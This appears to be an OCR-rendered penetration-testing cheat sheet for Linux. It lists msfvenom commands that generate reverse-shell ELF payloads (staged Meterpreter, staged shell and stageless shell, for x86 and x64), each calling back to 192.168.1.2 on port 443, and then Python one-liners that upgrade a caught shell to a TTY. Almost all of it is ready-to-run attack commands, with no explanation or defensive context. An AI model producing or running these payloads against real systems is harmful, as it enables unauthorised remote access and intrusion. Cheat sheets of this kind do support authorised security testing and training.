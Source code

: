 `Linux`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf

```

`x64`

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf

```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf

```

`x64`

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf

```

`Shell (Netcat Listener) [Stageless]`

`x86`

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf

```

`x64`

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elF

```

---

## Upgrade Shell (TTY)

Upgrade Shell (TTY)

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm-256color

```
